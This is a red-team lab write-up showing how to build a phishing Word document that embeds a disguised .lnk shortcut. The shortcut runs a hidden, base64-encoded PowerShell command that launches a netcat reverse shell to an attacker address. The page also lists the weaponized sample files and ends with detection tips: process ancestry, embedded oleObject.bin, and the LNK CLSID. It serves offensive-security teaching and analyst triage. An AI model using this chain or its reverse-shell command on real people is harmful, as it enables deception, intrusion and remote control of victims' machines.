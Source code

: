 ```yaml
---
description: 'Phishing, Initial Access using embedded OLE + LNK objects'
---
```


# Phishing: OLE + LNK

This lab explores a popular phishing technique where attackers embed .lnk files into the Office documents and camouflage them with Ms Word office icons in order to deceive victims to click and run them. 

## Weaponization

Creating an .LNK file that will trigger the payload once executed:

{% tabs %}
{% tab title="attacker@local" %}
```csharp
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```
{% endtab %}
{% endtabs %}

Powershell payload will trigger a rudimentary NC reverse shell:

{% tabs %}
{% tab title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endtab %}
{% endtabs %}

Once the above powershell script is executed, an `.LNK` shortcut is created:

![](../../../.gitbook/assets/ole-lnk-shortcut-created.png)

Let's create a Word document that will contain the malicious shortcut that was created in the previous step:

![](../../../.gitbook/assets/ole-good-document.png)

Let's insert a new object into the document by selecting a `Package`and changing its icon source to a Microsoft Word executable:

![](../../../.gitbook/assets/ole-insert-ole-object-with-icon.png)

![](../../../.gitbook/assets/ole-change-icon.png)

Point the package to the .lnk file containing the payload:

![](../../../.gitbook/assets/ole-payload.png)

Final result:

![](../../../.gitbook/assets/ole-weaponized.png)

## Execution

Victim executing the embedded document. Gets presented with a popup to confirm execution:

![](../../../.gitbook/assets/ole-execution.png)

Once the victim confirms they want to open the file - the reverse shell comes back to the attacker:

![](../../../.gitbook/assets/ole-execution2.png)

{% file src="../../../.gitbook/assets/ole.ps1" caption="OLE+LNK Powershell Script" %}

{% file src="../../../.gitbook/assets/invoice-fintech-0900541.lnk" caption="Invoice-FinTech-0900541.lnk" %}

{% file src="../../../.gitbook/assets/completely-not-a-scam-ole+lnk.docx" caption="Phishing: OLE+Lnk MS Word Doc Package" %}

## Observations

After the payload is triggered, the process ancestry looks as expected - powershell gets spawned by winword, cmd is spawned by powershell..:

![](../../../.gitbook/assets/ole-ancestry1.png)

Soon after, the powershell gets killed and cmd.exe becomes an orphaned process:

![](../../../.gitbook/assets/ole-ancestry2.png)

Like in [T1137: Phishing - Office Macros](t1137-office-vba-macros.md), you can use rudimentary tools on your Windows workstation to quickly triage the suspicious Office document. First off, rename the file to a .zip extension and unzip it. Then you can navigate to `word\embeddings` and find `oleObject.bin` file that contains the malicious `.lnk`:

![](../../../.gitbook/assets/ole-embedded-bin.png)

Then you can do a simple `strings` or hexdump against the file and you should immediately see signs of something that should raise your eyebrow\(s\):

```csharp
hexdump.exe -C .\oleObject1.bin
```

![](../../../.gitbook/assets/ole-hexdump.png)

As an analyst, one should look for `CLSID 00021401-0000-0000-c000-000000000046` in the .bin file, which signifies that the .doc contains an embnedded .lnk file. In our case this can be observed here:

![](../../../.gitbook/assets/lnk-clsid.png)

## References

{% embed url="https://msdn.microsoft.com/en-gb/library/dd891343.aspx" %}

{% embed url="https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf" %}

